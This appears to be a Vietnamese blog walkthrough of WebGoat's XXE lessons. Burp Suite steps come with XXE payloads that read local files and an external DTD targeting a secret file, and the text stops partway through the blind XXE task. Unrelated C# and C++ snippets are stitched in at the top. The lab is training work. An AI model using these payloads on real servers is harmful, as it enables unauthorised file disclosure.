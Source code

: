 ```yaml
---
title: "(A5) Security Misconfiguration - XXE - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A5) Security Misconfiguration - XXE"
date: "26-3-2024"
id: "17"
---
```


## C#

```csharp
var client = new HttpClient();
client.BaseAddress = new Uri("http://example.com/");
// ACCEPT header
client.DefaultRequestHeaders.Accept.Add(
     new MediaTypeWithQualityHeaderValue("application/json"));
var request = new HttpRequestMessage(HttpMethod.Post, "relativeAddress");
// CONTENT-TYPE header
request.Content = new StringContent("{\"name\":\"John Doe\",\"age\":33}",
                     Encoding.UTF8, "application/json");
client.SendAsync(request).ContinueWith(responseTask =>
        Console.WriteLine("Response: {0}", responseTask.Result); );

```

## C++

## C++

```cpp


// C++ program to print name
// as output
#include <iostream>
using namespace std;

// Driver code
int main()
{
  string name;

  cout << "Enter the name: ";
  cin >> name;

  cout << "Entered name is: " <<
           name;
    return 0;
}
```

- XXE (XML external entity) hay tấn công thực thể bên ngoài XML là lỗ hổng lợi dụng tính năng phân tích cú pháp của XML dùng để phân tích cú pháp đầu vào XML từ người dùng. Từ đó kẻ tấn công có thể truy cập đến các tệp cục bộ, chạy các lệnh, quét các dịch vụ và các cổng nội bộ, truy cập mạng nội bộ, từ đó có thể thực hiện 1 cuộc tấn công DOS đến máy chủ dễ bị khai thác

## 1. Let's try

- Khởi động Brup Suite và mở WebGoat trong tình duyệt của Brup Suite:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H67_awhxrt.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat và mở Brup Suite xem ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H68_ibvlkr.png)

- Thay đổi XML trong Request theo code bên dưới và nhấn Forward.

```xml
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///C:/">]><comment>  <text>&xxe;</text></comment>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419324/WebGoat/H69_ww9c7b.png)

- Sau đó quay trở lại WebGoat đã tự động cập nhật hoàn thành:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H70_ifp6sa.png)

## 2. Modern REST framework

- Khởi động Brup Suite và mở WebGoat trong tình duyệt của Brup Suite:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H71_osyu6x.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat và mở Brup Suite xem ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H72_ctae5o.png)

- Thay đổi `application/json` trở thành `application/xml`, và thêm đoạn code XML bên dưới, sau đó nhấn Forward:

```xml
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///C:/">]><comment>  <text> &xxe;</text></comment>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419325/WebGoat/H73_ygsmoa.png)

- Sau đó quay trở lại WebGoat đã tự động cập nhật hoàn thành:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H74_q6zyeh.png)

## 3. Blind XXE assignment

- Vào trang: http://127.0.0.1:9090/WebWolf/files

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H75_ck9obo.png)

- Tạo một file tên là ** attack.dtd** (nội dung file là đoạn code bên dưới) và Upload nó lên WebWolf:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY attackxxe SYSTEM 'file:///C:\Users\asus\.webgoat-2023.8\XXE\theviblog\secret.txt'>
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419326/WebGoat/H76_fxvszi.png)

- Bật Intercept trên Brup Suite.
- Nhấn Submit trên WebGoat, trên Brup Suite ta sẽ thấy được Request:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711419339/WebGoat/H77_hbu1oo.png)
Còn tiếp...
